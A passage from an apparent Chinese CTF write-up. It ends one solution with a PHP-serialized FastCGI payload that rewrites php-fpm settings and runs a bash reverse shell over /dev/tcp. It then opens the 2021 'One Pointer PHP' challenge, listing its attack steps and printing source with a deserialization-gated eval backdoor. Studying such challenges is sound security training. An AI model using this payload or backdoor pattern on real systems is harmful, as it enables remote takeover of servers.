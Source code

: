```php
$a->tmp->str4->username->data = urldecode("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%06%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH108%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%18SCRIPT_FILENAME%20/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00l%04%00%3C%3Fphp%20system%28%27%20bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/i/10000%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00");
echo urlencode(serialize($a));
```

最后就是监听端口然后传入值，直接反弹shell。

##  蓝帽杯2021 One Pointer PHP

###  考点

1. php数组溢出
2. 写入文件，获取webshell
3. 绕过open_basedir
4. 利用FTP的被动模式攻击php-fpm，绕过disabled_functions
5. Suid提权

打开题目，给出了两个文件

user.php

```php
<?php
class User{
	public $count;
}
?>
```

add_api.php:

```php
<?php
include "user.php";
if($user=unserialize($_COOKIE["data"])){//将cookie中的data值反序列化给$user
	$count[++$user->count]=1;//在count数组添加一个单元，并赋值为1
	if($count[]=1){//判断数组最后序号的值是否为1.
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
?>
```

